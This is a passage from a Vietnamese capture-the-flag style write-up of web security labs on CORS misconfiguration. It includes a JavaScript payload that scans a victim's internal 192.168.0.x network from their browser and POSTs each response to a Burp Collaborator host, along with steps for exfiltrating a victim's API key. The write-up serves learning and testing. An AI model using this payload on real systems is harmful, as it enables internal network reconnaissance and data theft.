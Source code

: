 Lặp lại các bước trên, thay `console.log` thành `fetch` để gửi API của victim về server của ta.

Gửi URL cho victim, và Access log để lấy API của vitim và submit để hoàn thành lab

![Untitled](writeup_media/Untitled%2014.png)

---

### **CORS vulnerability with internal network pivot attack**

Bước đầu ta cần tìm endpoint để thực hiện exploit bằng cách bruteforce địa chỉ IP của mạng nội bộ. Craft một đoạn javascript để khi ấn vào link ta gửi, browser của victim sẽ gửi request đến các IP trong mạng nội bộ và gửi về endpoint Burp Collab của ta

```jsx
<script>
    for (i = 0; i <= 225; i++) {
        fetchFunc("http://192.168.0." + i + ":8080");
    }

    function fetchFunc(url){
        fetch(url)
        .then(response => response.text())
        .then(response => {
            var response = fetch("http://fxg3c0tgvqf2bvsm9l9yc2ozuq0loa.burpcollaborator.net", {
                method: 'POST',
                headers: {
                    'Content-Type': 'text/plain'
                },
                body: url + "\n" + response
            });
        })
    }
</script>
```

Copy paste và store vào Exploit server rồi gửi cho victim

![Untitled](writeup_media/Untitled%2015.png)
